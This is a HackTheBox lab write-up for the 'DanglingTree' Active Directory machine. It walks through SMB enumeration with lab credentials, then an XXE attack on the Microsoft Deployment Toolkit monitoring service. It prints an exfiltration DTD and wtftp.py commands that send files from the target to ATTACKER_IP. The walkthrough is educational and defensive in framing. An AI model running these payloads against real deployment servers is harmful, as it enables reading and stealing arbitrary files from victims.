


## Introduction
Welcome to my writeup for **DanglingTree**, an Hard difficulty machine on HackTheBox. This guide is for educational purposes only. 

In this walkthrough, we will also explore a major **Unintended shortcut**: how a single XML External Entity (XXE) vulnerability in the MDT monitoring service completely bypassed the lengthy intended path, allowing us to read sensitive files and flags directly off the file system in one go. Let’s dive in!

To begin the assessment, I started with a **Nmap** scan to identify open ports and services running on the target machine:
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5040/tcp  open  unknown
5985/tcp  open  wsman
9389/tcp  open  adws
9801/tcp  open  sstp-2
47001/tcp open  winrm

```


To ensure proper resolution and interaction with the Active Directory environment, we need to add the target IP and these domain names to our /etc/hosts file:

```bash
echo "TARGET_IP scaffold.htb portal.scaffold.htb dc.scaffold.htb dc " | sudo tee -a /etc/hosts
```


# SMB Enumeration
Next, we enumerate the SMB shares available on the target:
```bash
nxc smb TARGET_IP -u j.harris -p 'Harr1sHelpdesk2026!Breach' --shares
```
```
SMB         10.129.60.118   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.60.118   445    DC               [+] scaffold.htb\j.harris:Harr1sHelpdesk2026!Breach 
SMB         10.129.60.118   445    DC               [*] Enumerated shares
SMB         10.129.60.118   445    DC               Share           Permissions     Remark
SMB         10.129.60.118   445    DC               -----           -----------     ------
SMB         10.129.60.118   445    DC               ADMIN$                          Remote Admin
SMB         10.129.60.118   445    DC               C$                              Default share
SMB         10.129.60.118   445    DC               DeploymentShare$                 MDT Deployment Share
SMB         10.129.60.118   445    DC               IPC$            READ            Remote IPC
SMB         10.129.60.118   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.60.118   445    DC               REMINST         READ            Windows Deployment Services Share                                                                                                                   
SMB         10.129.60.118   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.60.118   445    DC               Y$                              Default share

```

We successfully authenticate using the credentials and notice several interesting shares, most notably **`DeploymentShare$`** (Microsoft Deployment Toolkit share) and **`REMINST`** (Windows Deployment Services share).


While enumerating the shares and researching Microsoft Deployment Toolkit (MDT) attack vectors associated with `DeploymentShare$` and deployment services, I came across a relevant research blog post detailing MDT-related vulnerabilities and exploitation techniques:

[MDT Exploitation Research Blog](https://specterops.io/blog/2026/01/21/task-failed-successfully-microsofts-immediate-retirement-of-mdt/)

This research highlighted how the MDT monitoring service handles configuration events, noting that the target exposes the Microsoft Deployment Toolkit (MDT) monitoring services on ports `9800` (`MDTMonitorEvent`) and `9801` (`MDTMonitorData`).

As investigated through service inspection and the insights from the blog, the `MDTMonitorData` OData service is vulnerable to XML External Entity (XXE) injection via the computer settings parameter. By leveraging a custom exploitation script, we can interact with the MDT monitoring API, create a dummy deployment entry, and inject an external entity to read arbitrary files directly from the filesystem—bypassing authentication and credential hunting entirely.

### Tool Setup and Installation

To exploit this vulnerability, we can utilize the public exploit script available on GitHub. First, we clone the repository and set up a Python virtual environment using `uv` for fast dependency management:

```bash
git clone https://github.com/garrettfoster13/wtftp.git
cd wtftp
python3 -m venv venv
source venv/bin/activate

# Install uv package manager if not already installed
curl -LsSf https://astral.sh/uv/install.sh | sh
source $HOME/.cargo/env
```

### Enumerating Users for Direct File Access

While our XXE vulnerability provides a direct file-read primitive, we first need to know the correct user paths (such as home directories) to target. Since we don't have a pre-existing list of users, we can enumerate the members of the **Domain Users** group via our authenticated session to discover valid usernames on the target system:




Based on the research and methodology, we initially execute the exploit command targeting the user file directly:

```bash
uv run wtftp.py exfil -t TARGET_IP -d ATTACKER_IP -f "C:/Users/m.carter/Desktop/user.txt"
```

### Analyzing the Payload Failure via Wireshark

When we initially run the exploit, we notice that the file read attempt fails. By capturing the traffic with Wireshark and following the HTTP stream of our local DTD server (`exfil.dtd`), we can inspect the exact payload being fetched by the target:



```
<!ENTITY % file SYSTEM "file:///C:/DeploymentShare$/Control/C:/Users/m.carter/Desktop/user.txt">
```


#### The Problem: Path Concatenation Error

From the captured stream above, we can clearly see why the request fails:
1. **Conflicting Paths:** The script automatically concatenates the default share directory prefix with our requested file path. 
2. **Invalid Format:** This results in an illegal path format inside the URI, causing the .NET XML parser to reject it.


By analyzing the source code of `wtftp.py`, we can easily identify why our initial exploit attempt failed and how to correctly structure our arguments.

Inside the `MDTEXFIL` class, the `update_dtd` method dynamically generates the payload using string interpolation:

```python
def update_dtd(self):
    # creates/updates dtd file in loot/
    dtd_content = f'''<!ENTITY % file SYSTEM "file:///{self.share}/{self.file}">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://{self.destination}:9000/?data=%file;'>">
%eval;
%exfil;
```

When passing an absolute path via `-f "C:/Users/m.carter/Desktop/user.txt"` without specifying `-s`, the script combines `{self.share}` and `{self.file}`:

`file:///` + `C:/DeploymentShare$/Control` (default `-s`) + `/` + `C:/Users/m.carter/Desktop/user.txt` (`-f`)

This results in the following malformed URI:

```text
file:///C:/DeploymentShare$/Control/C:/Users/m.carter/Desktop/user.txt
```

#### User.txt

To bypass this path concatenation error and properly form the URI, we can redefine the base share parameter (`-s`) to point directly to the user's desktop directory, while passing only the target filename (`user.txt`) to the `-f` parameter:

```bash
uv run wtftp.py exfil -t TARGET_IP -d ATTACKER_IP -s "C:/Users/m.carter/Desktop" -f "user.txt"
```

#### Root.txt

```bash
uv run wtftp.py exfil -t TARGET_IP -d ATTACKER_IP -s "C:/Users/Administrator/Desktop" -f "root.txt"
```


